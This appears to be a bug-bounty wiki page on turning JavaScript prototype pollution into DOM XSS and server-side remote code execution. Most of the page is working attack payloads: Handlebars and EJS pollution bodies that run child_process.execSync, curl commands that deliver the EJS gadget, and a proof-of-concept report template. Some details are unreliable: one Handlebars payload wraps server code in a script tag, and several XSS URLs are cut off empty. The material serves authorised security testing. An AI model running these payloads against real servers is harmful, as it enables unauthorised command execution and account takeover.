

> Source: https://bugbounty.info/Chains/Prototype-Pollution-to-Exploit

# Prototype Pollution to Exploit

## Why This Chain Works

Prototype pollution is often reported as low-impact because the researcher stops at "I can write to `Object.prototype`." That's the entry point, not the finding. What matters is the gadget - some downstream code path that reads a property from an object without owning it, inheriting the attacker-controlled value from the prototype instead. On the client that gadget tends to land in a DOM sink. On the server, the gadgets are in template engines and configuration-reading patterns in Express and its ecosystem, and several of them hand you command execution.

Related: [Prototype Pollution](../Attack-Surface/Web/Client-Side/Prototype-Pollution), [XSS to Account Takeover](../Chains/XSS-to-Account-Takeover), [Remote Code Execution](../Attack-Surface/Web/RCE)

---

## Attack Flow



---

## Step-by-Step

### 1. Confirm the Pollution Primitive

**Client-side (URL parameter or hash-based):**

In the browser console, test whether a query parameter or URL hash value reaches a merge or deep-assign function:

```javascript
// Visit: https://target.com/?__proto__[testprop]=polluted
// Then in console:
console.log({}.testprop); // "polluted" if vulnerable
```

**Server-side (JSON body merge):**

Send a request with a polluted JSON body:

```http
POST /api/settings HTTP/1.1
Content-Type: application/json
 
{"__proto__":{"testprop":"polluted"}}
```

Or using `constructor.prototype`:

```json
{"constructor":{"prototype":{"testprop":"polluted"}}}
```

Confirm by checking whether subsequent objects in the process inherit `testprop`.

### 2. Client-Side Path - Find a DOM Sink Gadget

Once you can pollute `Object.prototype`, look for code that reads from an object property without checking own-property first:

```javascript
// Vulnerable pattern - if 'options' doesn't define 'template', it inherits from prototype
var tpl = options.template || defaultTemplate;
document.getElementById('app').innerHTML = tpl;
```

Common client-side gadgets:

- `innerHTML` assignment from a config property
- jQuery's `$.html()` reading from a polluted `htmlTemplate` or `html` key
- `location.href` set from a polluted `redirectUrl` key
- `eval()` or `setTimeout(string)` receiving a polluted callback name

**DOM XSS via prototype pollution payload:**

```text
https://target.com/?__proto__[template]=
```

Then trigger the code path that reads `options.template`. If the gadget exists, XSS fires.

### 3. Server-Side Path - Handlebars RCE

Handlebars versions before the 2021 patch are vulnerable. The gadget is in Handlebars' `compile` function, which reads from prototype-polluted properties during compilation:

```javascript
// Pollution payload in API body:
{
  "__proto__": {
    "pendingContent": "<script>process.mainModule.require('child_process').execSync('id')</script>",
    "escapeExpression": false
  }
}
```

More reliable Handlebars RCE gadget (pre-patch):

```json
{
  "__proto__": {
    "type": "Program",
    "body": [{"type": "MustacheStatement",
              "path": {"type": "PathExpression",
                       "parts": ["constructor"],
                       "data": false},
              "params": [{"type": "StringLiteral",
                          "value": "return process.mainModule.require('child_process').execSync('id').toString()"}],
              "hash": {"type": "Hash", "pairs": []}}]
  }
}
```

### 4. Server-Side Path - EJS RCE

EJS has known prototype pollution gadgets. Polluting `outputFunctionName` executes arbitrary code during template rendering:

```json
{
  "__proto__": {
    "outputFunctionName": "x=process.mainModule.require('child_process').execSync('id').toString();s"
  }
}
```

Trigger any EJS template render after this pollution and the injected expression executes.

### 5. Server-Side Path - Node.js / Express Config Gadgets

Some Express middleware and ORMs read configuration from object properties. Pollution can affect:

```javascript
// Example: a route handler that reads options.shell
app.post('/exec', (req, res) => {
  merge(options, req.body);  // deep merge user input into options
  spawn(command, { shell: options.shell });  // inherits polluted 'shell: true'
});
```

Polluting `shell: true` on an `options` object passed to `child_process.spawn` enables shell injection in the command argument.

### 6. Confirm Impact

```bash
# After the pollution payload reaches the server:
curl -X POST https://target.com/api/settings \
  -H "Content-Type: application/json" \
  -d '{"__proto__":{"outputFunctionName":"x=require(\"child_process\").execSync(\"id\").toString();s"}}'
 
# Then trigger a render:
curl https://target.com/dashboard
# If EJS is used, response should contain: uid=0(root) gid=0(root)
```

---

## PoC Template for Report

```text
Client-side DOM XSS via prototype pollution:
1. Visit: https://target.com/app?__proto__[innerHTML]=
2. Open browser console: ({}).innerHTML evaluates to the XSS payload
3. Target's app.js calls: container.innerHTML = config.innerHTML || '';
4. XSS executes, alert(origin) shows target.com
 
Server-side RCE via EJS gadget:
1. POST /api/profile {"__proto__":{"outputFunctionName":"x=require('child_process').execSync('id').toString();s"}}
   Response: 200 OK
2. GET /dashboard
   Response body contains: uid=33(www-data) gid=33(www-data) groups=33(www-data)
3. Server is running Node.js with EJS template engine - confirmed by X-Powered-By header.
```

---

## Public Reports

- Prototype pollution to RCE in Node.js app via Handlebars gadget - [HackerOne #1043752](https://hackerone.com/reports/1043752)
- Client-side prototype pollution to XSS on Yahoo - [HackerOne #986386](https://hackerone.com/reports/986386)
- Prototype pollution in jQuery deep merge leading to DOM XSS - [HackerOne #885588](https://hackerone.com/reports/885588)
- Prototype pollution to RCE via EJS outputFunctionName gadget - [HackerOne #1217956](https://hackerone.com/reports/1217956)

---

## Reporting Notes

Name the gadget in the title. "Prototype Pollution to RCE via EJS outputFunctionName" is triaged faster than "Prototype Pollution." Show the pollution step and the gadget trigger as two separate requests. For server-side RCE, include the `id` output. For client-side XSS, show that `Object.prototype` is genuinely polluted before the gadget fires - a console screenshot showing `({}).yourprop === 'polluted'` is clean proof.
